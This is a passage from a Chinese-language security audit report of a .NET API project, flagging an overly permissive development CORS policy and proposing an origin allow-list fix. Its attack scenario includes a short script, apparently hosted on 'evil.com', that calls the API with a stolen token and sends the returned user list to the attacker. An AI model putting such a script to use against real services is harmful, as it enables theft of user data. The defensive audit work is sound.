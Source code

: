### 最佳实践
1. 使用 Azure Key Vault / AWS Secrets Manager
2. 使用 User Secrets (开发环境)
3. 使用环境变量 (生产环境)
4. 密钥至少 256 位 (32字节)
5. 定期轮换密钥

---

## 🔴 2. CORS配置过度宽松 (开发环境)

### 问题描述
```csharp
// Platform.ApiService/Program.cs
if (builder.Environment.IsDevelopment())
{
    policy.AllowAnyOrigin()  // ❌ 允许任何源
          .AllowAnyMethod()  // ❌ 允许任何方法
          .AllowAnyHeader(); // ❌ 允许任何头
}
```

### 风险等级
**🟠 高危** - CVSS 7.5 (High)

### 安全影响
1. **CSRF攻击**: 恶意网站可以向API发起请求
2. **数据窃取**: 在开发环境中窃取敏感数据
3. **跨域攻击**: 绕过同源策略
4. **Token劫持**: 恶意站点可以读取响应

### 攻击场景
```html
<!-- 恶意网站 evil.com -->
<script>
fetch('http://localhost:15000/apiservice/api/user/list', {
    method: 'POST',
    headers: {
        'Authorization': 'Bearer ' + stolenToken
    }
}).then(res => res.json())
  .then(data => sendToAttacker(data));
</script>
```

### 修复建议
```csharp
// ✅ 即使开发环境也限制源
options.AddDefaultPolicy(policy =>
{
    if (builder.Environment.IsDevelopment())
    {
        // 明确列出允许的开发源
        policy.WithOrigins(
                "http://localhost:15001",  // Admin frontend
                "http://localhost:15002"   // Mobile app
            )
            .AllowAnyMethod()
            .AllowAnyHeader()
            .AllowCredentials();  // ✅ 添加凭证支持
    }
    else
```